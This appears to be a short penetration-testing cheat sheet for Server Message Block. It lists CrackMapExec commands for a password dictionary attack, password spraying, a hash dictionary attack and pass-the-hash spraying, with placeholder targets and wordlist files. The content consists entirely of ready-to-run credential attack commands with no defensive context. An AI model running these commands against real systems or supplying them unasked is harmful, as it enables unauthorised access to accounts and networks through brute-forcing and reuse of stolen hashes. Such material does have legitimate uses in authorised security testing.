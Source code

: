 # Server Message Block

## Password dictionary attack

_CrackMapExec_

```
crackmapexec smb 127.0.0.1 -u users.txt -p passwords.txt --continue-on-success
```

## Password Spraying

```
cme smb $ip -u users.txt -p 'password'
```

## Hash dictionary attack

```
crackmapexec smb 127.0.0.1 -u users.txt -H NThashes.txt --continue-on-success
```

## Hash spray

```
crackmapexec smb 127.0.0.1 -u users.txt -H :hash --continue-on-success --local-auth
```
